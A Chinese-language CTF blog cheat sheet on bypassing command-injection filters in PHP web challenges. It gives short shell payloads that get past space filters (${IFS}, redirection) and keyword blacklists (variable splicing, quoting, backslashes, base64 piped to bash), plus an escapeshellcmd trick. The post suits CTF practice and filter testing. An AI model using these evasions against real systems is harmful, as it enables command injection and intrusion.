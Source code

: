 ```yaml
---
title: CTF中命令执行绕过方法
categories:
  - web
abbrlink: 2701
date: 2023.11.23
tags:
  - php
---
```


# **命令执行绕过**

## escapeshellcmd函数绕过方法：

1.执行.bat文件的时候，利用%1a，可以绕过过滤执行命令。

payload=

```
post=../ %1a whoami
```

2.宽字节注入

## 空格过滤：

1.${IFS}

payload1=

```
cat${IFS}flag
```

payload2=

```
cat${IFS}$9flag
```

payload3=

```
cat$IFS$9flag
```

2.重定向符<>

payload1=

```
cat<>flag
```

payload2=

```
cat<flag
```

# 黑名单绕过

1.拼接

payload=

```
a=c;b=at;c=flag;$a$b $c
```

2.利用已存在的资源

从已有的文件或者环境变量中获得相应的字符。

3.base64编码

```
`echo "Y2F0IGZsYWc="|base64 -d`
```

```
echo "Y2F0IGZsYWc="|base64 -d|bash
```

4.单引号、双引号

payload1=

```
c""at flag
```

payload2=

```
c""at fl""ag
```

payload3=

```
c""at fl''ag
```

5.反斜线 \

payload=

```
c\at fl\ag
```

6.LINUX下一些已有字符

- ${PS2} 对应字符 '>'
- ${PS4} 对应字符 '+'
- ${IFS} 对应 内部字段分隔符
- ${9} 对应 空字符串



